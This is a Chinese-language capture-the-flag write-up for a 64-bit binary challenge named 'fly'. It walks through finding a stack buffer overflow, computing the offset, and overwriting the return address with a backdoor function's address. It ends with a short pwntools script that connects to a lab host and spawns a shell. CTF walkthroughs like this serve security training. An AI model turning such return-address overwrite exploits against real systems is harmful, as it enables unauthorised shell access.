






# fly

先checksec一下


64位且可以进行栈溢出
然后我们阅读程序代码


read函数可以进行栈溢出，但进入if中我们需要找到一个字符使它的ASCII码值为-105
关于ASCII码为负值的原因可以参考：
https://blog.csdn.net/kelehaier/article/details/59560419
据此我们可以计算出实际的ASCII码为151
然后我们查看buf的栈


起始地址为0xD0
溢出值为：`offset = 0xD0+0x08`

找到后门函数:

后门函数起始地址为：


构造payload为：`payload = b'a'*offset+p64(0x40086E)`
exp:
```python
from pwn import *
r = remote("10.102.32.142", 23961)
ch = chr(151)
offset = 0xD0+0x08
r.sendline(ch)
payload = b'a'*offset+p64(0x40086E)
r.sendline(payload)
r.interactive()
```

成功拿到shell

